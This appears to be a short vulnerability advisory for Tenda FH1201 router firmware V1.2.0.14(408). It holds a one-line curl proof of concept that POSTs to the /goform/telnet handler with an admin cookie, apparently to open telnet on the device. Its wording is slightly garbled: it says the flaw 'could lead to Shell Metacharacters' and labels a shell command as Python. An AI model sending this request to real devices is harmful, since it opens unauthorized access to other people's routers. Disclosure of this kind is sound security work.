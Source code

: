 ## Overview

- Firmware download website: https://www.tendacn.com/download/detail-3322.html

## Affected version

FH1201 Firmware  V1.2.0.14(408)

## Vulnerability details

An issue was discovered in FH1201 Firmware  V1.2.0.14(408) devices. An HTTP request within the handler function of the /goform/telnet route. This could lead to Shell Metacharacters.

![image-20240731144148125](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240731144148125.png)

## POC

```python
curl -i -X POST http://192.168.84.101/goform/telnet -d aa=aa --cookie "user=admin" --http0.9
```

![image-20240731144329541](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240731144329541.png)
